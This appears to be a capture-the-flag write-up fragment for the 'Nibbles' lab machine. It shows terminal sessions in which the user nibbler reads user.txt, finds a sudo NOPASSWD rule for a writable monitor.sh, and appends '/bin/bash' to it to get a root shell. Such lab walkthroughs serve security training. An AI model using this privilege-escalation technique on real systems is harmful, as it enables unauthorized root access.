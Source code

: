 ```
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd ~
<ml/nibbleblog/content/private/plugins/my_image$ cd ~                        
nibbler@Nibbles:/home/nibbler$ ls
ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt
```
- we see that we may run monitor.sh....
```
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
- we can modify the monitor.sh script and echo into it "/bin/bash" in order to escalate privileges
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "/bin/bash" >> monitor.sh
echo "/bin/bash" >> monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh 
sudo ./monitor.sh
'unknown': I need something more specific.
/home/nibbler/personal/stuff/monitor.sh: 26: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 36: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 43: /home/nibbler/personal/stuff/monitor.sh: [[: not found
root@Nibbles:/home/nibbler/personal/stuff# whoami
whoami
root
root@Nibbles:/home/nibbler/personal/stuff# cd ~
cd ~
root@Nibbles:~# ls
ls
root.txt
```

# Useful Links:

